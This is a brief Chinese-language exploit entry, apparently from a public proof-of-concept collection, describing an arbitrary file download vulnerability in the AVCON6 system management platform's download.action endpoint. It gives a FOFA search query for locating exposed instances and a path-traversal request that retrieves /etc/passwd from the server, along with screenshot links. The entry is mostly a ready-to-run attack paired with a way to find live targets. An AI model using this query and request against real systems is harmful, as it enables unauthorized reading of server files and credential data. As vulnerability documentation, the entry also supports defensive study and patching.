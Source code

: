 # AVCON6 系统管理平台 download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 download.action 存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## FOFA

```
app="AVCON-6"
```

## 漏洞复现

登录页面

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101910735.png)

验证POC

```php
/download.action?filename=../../../../../../etc/passwd
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101910750.png)